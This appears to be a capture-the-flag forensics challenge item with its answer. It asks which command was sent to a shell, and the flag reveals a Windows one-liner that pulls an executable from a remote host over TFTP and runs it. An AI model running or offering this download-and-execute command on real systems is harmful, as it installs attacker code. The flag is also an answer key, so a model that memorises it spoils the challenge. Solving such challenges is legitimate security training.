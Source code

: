 What is the command that was sent to the shell?

**Flag Format:** `BCF2023{command}`

BCF2023{tftp -i 192.168.116.2 GET h3110.411 package.exe & package.exe & exit}